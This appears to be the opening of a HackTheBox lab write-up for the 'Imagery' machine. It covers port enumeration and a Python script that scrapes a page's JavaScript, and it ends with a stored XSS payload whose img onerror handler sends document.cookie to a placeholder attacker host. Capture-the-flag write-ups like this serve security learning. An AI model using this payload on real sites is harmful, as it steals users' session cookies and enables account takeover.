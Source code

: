 # Imagery: HackTheBox

## Enumeration

Port 22,8000 were open.

## Initial Access

The first step is to sign up and make an account. Now we can poke around the webpage, there doesnt seem to be much. But on inspecting the source I saw a shit ton of JS, which my browser refused to show. So I used the below script to get the js from the page.

### Quick Script I wrote to extract all the JS from the page

```python

import requests
from bs4 import BeautifulSoup

url = "http://imagery.htb:8000"
cookies = {"session":".eJyrVkrJLC7ISaz0TFGyUkoySzNJSU5KVNJRyix2TMnNzFOySkvMKU4F8eMzcwtSi4rz8xJLMvPS40tSi0tKi1OLkFXAxOITk5PzS_NK4HIgwbzE3FSgHSA1DiBCLzk_V6kWAMF-Lxg.aNyIaw.YZHWU417HjNhJPyfxYZH39MR1Tk"}

# Get the webpage

print("[*] Getting the webpage")

res = requests.get(url, cookies=cookies)
if res.status_code == 200:
    print("[+] SUccessfully got webpage")
else:
    print("[-] An error occured")
    exit(1)

print("[*] Obtaining script tags")
parser = BeautifulSoup(res.text, "html.parser")
js = parser.find_all("script")

print("[*] Writing output to file")
with open("source.js", mode="w") as file:
    file.write(js[2].text)

print("[+] Successfully written output to file")
```

From the code we can see that the /submit_report endpoint is vulnerable to XSS because the report description is not sanitized by DOMPurify. So I will just provide in a title and the description of the bug will be 

```html
<img src=x onerror="fetch('http://<ip>:<port>/?c='+document.cookie)" />
```
